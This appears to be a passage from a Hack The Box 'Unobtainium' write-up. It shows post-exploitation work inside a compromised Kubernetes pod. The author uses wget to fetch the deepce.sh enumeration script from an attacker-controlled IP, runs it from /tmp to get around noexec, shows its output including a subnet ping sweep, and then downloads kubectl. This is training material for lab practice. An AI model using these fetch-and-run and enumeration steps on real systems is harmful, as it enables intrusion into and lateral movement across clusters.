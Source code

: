 
2. Enumerate the pod further with deepce.sh and using kubectl.


root@webapp-deployment-5d764566f4-h5zhw:/dev/shm# wget http://10.10.14.2:4499/deepce.sh

We are unable to execute scripts in /dev/shm, probably because the 'noexec' option have been specified for that volume, so instead
move the file to /tmp and execute it there.

  root@webapp-deployment-5d764566f4-h5zhw:/tmp# ./deepce.sh
    ..
    ===================================( Enumerating Platform )===================================
    [+] Inside Container ........ Yes
    [+] Container Platform ...... kubentes
    [+] Container tools ......... None
    [+] User .................... root
    [+] Groups .................. root
    ..
    ==================================( Enumerating Container )===================================
    [+] Container ID ............ webapp-deployment-5d764566f4-h5zhw
    [+] Container Name .......... webapp-deployment-5d764566f4-h5zhw
    [+] Container IP ............ 172.17.0.10
    [+] DNS Server(s) ........... 10.96.0.10
    [+] Host IP ................. 172.17.0.1
    [+] Useful tools installed .. Yes
    /usr/bin/curl
    /usr/bin/wget
    /usr/bin/gcc
    /bin/hostname
    /usr/bin/python
    /usr/bin/python2
    /usr/bin/python3
    ..
    ==================================( Enumerating Containers )==================================
    [+] Attempting ping sweep of 172.17.0.10 /24 (ping)
    172.17.0.1 is Up
    172.17.0.3 is Up
    172.17.0.4 is Up
    172.17.0.7 is Up
    172.17.0.10 is Up
    172.17.0.8 is Up
    172.17.0.2 is Up
    172.17.0.9 is Up
    172.17.0.6 is Up
    172.17.0.5 is Up

Not much info to go on, but atleast it confirmed that we're in a kubernetes platform, and gave us some IPs.
Continue the enumeration by downloading/uploading Kubectl.

Download kubectl:
[root:/git/htb/unobtainium]# curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
